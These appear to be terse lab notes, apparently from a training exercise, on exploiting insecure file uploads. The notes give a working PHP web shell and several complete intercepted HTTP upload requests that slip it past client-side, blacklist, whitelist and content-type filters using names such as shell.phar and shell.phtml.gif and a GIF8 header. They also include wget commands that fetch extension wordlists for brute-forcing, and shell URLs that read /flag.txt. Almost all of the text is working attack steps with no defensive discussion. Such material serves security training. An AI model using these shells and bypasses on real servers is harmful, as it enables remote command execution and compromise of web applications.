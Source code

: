 File Upload


# Absent Validation
 

 echo "<?php echo gethostname(); ?>" > test.php

 upload the file and go to /uploads/test.php
 

# Upload Exploitation Web Shells

touch test2.php

nano test2.php

Copy:
```php

<?php system($_REQUEST['cmd']); ?>

```

upload the file and go to /uploads/test2.php?cmd=cat /flag.txt

# Client-Side Validation

- After poste a valid image to the upload 
- Intercept with burp and mofify the request like this:

```python
POST /upload.php HTTP/1.1
Host: 94.237.60.251:50697
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31070384352095504274360374143
Content-Length: 110908
Origin: http://94.237.60.251:50697
Connection: close
Referer: http://94.237.60.251:50697/

-----------------------------31070384352095504274360374143
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
-----------------------------31070384352095504274360374143--


```

upload the file and go to /profile_images/shell.php?cmd=cat /flag.txt


# Blacklist Filters

```shell
 wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

```
- Intercept the request on burp and send to intruder to brute force the extensions .php
- Next modify the request like this, after discovery the correct extension

```python

POST /upload.php HTTP/1.1
Host: 83.136.255.125:57766
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------100728475939235324011375106908
Content-Length: 262
Origin: http://83.136.255.125:57766
Connection: close
Referer: http://83.136.255.125:57766/

-----------------------------100728475939235324011375106908
Content-Disposition: form-data; name="uploadFile"; filename="shell.php8"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
-----------------------------100728475939235324011375106908--

```

upload the file and go to /profile_images/shell.php8?cmd=cat /flag.txt


# Blacklist Filters 

```shell
wget wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/web-extensions.txt

```
- Intercpet the request and send to intruder, next perform a brute force to the extensions with is wordlist web-extensions.txt
- Next modify the request like this, after discovery the correct extension

```python

POST /upload.php HTTP/1.1
Host: 94.237.60.75:45409
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------640482531457047109795953001
Content-Length: 255
Origin: http://94.237.60.75:45409
Connection: close
Referer: http://94.237.60.75:45409/

-----------------------------640482531457047109795953001
Content-Disposition: form-data; name="uploadFile"; filename="shell.phar"
Content-Type: image/png

<?php system($_REQUEST['cmd']); ?>
-----------------------------640482531457047109795953001--

```

upload the file and go to /profile_images/shell.phar?cmd=cat+/flag.txt

# Whitelist Filters

```shell
wget wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/web-extensions.txt

```

- Intercpet the request and send to intruder, next perform a brute force to the extensions with is wordlist web-extensions.txt
- Next modify the request like this, after discovery the correct extension

```
POST /upload.php HTTP/1.1
Host: 94.237.50.149:40146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------349202245540057470341937322530
Content-Length: 266
Origin: http://94.237.50.149:40146
Connection: close
Referer: http://94.237.50.149:40146/

-----------------------------349202245540057470341937322530
Content-Disposition: form-data; name="uploadFile"; filename="shell.phtml.gif"
Content-Type: image/png

<?php system($_REQUEST['cmd']); ?>
-----------------------------349202245540057470341937322530--


```

upload the file and go to /profile_images/shell.phtml.gif?cmd=cat+/flag.txt


# Type Filters

- The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image.

- Find what Content-Types are allowed

```shell
cp /usr/share/seclists/Miscellaneous/web/content-type.txt .
cat content-type.txt | grep 'image/' > image-content-types.txt

```

```python
POST /upload.php HTTP/1.1
Host: 94.237.50.149:40146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------349202245540057470341937322530
Content-Length: 266
Origin: http://94.237.50.149:40146
Connection: close
Referer: http://94.237.50.149:40146/

-----------------------------349202245540057470341937322530
Content-Disposition: form-data; name="uploadFile"; filename="shell.png.phtml"
Content-Type: image/png

GIF8
<?php system($_REQUEST['cmd']); ?>
-----------------------------349202245540057470341937322530--


```

# Limited File Uploads
